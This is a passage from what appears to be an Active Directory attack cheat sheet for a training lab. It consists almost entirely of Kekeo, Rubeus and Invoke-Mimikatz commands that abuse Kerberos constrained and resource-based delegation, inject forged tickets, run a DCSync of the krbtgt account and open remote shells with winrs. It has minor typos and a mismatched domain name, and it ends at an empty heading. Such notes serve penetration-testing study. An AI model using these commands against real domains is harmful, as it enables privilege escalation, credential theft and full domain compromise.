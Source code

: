 ##### Kekeo

```powershell
# Requesting a TGT for the first hop service account
tgt::ask /user:appsvc /domain:us.techcorp.local
/rc4:1D49D390... 

# Request a TGS
tgs::s4u /tgt:TGT_appsvc@US.TECHCORP.LOCAL_krbtgt~us.techcorp.local@US.TECHCORP.LOCAL.kirbi /user:Administrator /service:CIFS/us-mssql.us.techcorp.local|HTTP/us-mssql.us.techcorp.local 
```

##### Invoke-Mimikatz

```powershell
# Inject the ticket
Invoke-Mimikatz '"kerberos::ptt  TGS_Administrator@US.TECHCORP.LOCAL_HTTP~us-mssql.us.techcorp.local@US.TECHCORP.LOCAL_ALT.kirbi"' 

# Execute DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

##### ScriptBlock

```powershell
Inoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local
```

##### Rubeus

```powershell
# 1. Request for a S4U`
Rubeus.exe s4u /user:appsvc /rc4:1D49D390... /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

# 2. Remote login using winrs
winrs -r:us-mssql cmd.exe
```

### Resource-based Constrained Delegation

```powershell
# 1. Enumerate if we have Write permissions over any object.
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}

# 2. Using AES key of studentx$ with Rubeus and access us-helpdesk as ANY user we want
Rubeus.exe s4u /user:student1$ /aes256:d10... /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt

winrs -r:us-helpdesk cmd.exe
```

### Constrained Delegation with Kerberos Only
